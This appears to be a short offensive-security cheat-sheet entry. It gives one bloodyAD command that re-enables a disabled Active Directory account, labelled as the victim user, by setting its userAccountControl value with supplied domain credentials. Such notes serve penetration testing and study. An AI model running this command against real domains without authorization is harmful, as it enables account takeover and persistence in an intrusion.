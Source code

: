 # Enabling Account

## Enabling Disabled Account
```
bloodyAD --host <DC_FQDN> -d '<DOMAIN>' --dc-ip <DC_IP> -u <USERNAME> -p '<PASSWORD>' set object "<VICTIM_USER>" userAccountControl -v '512'
```
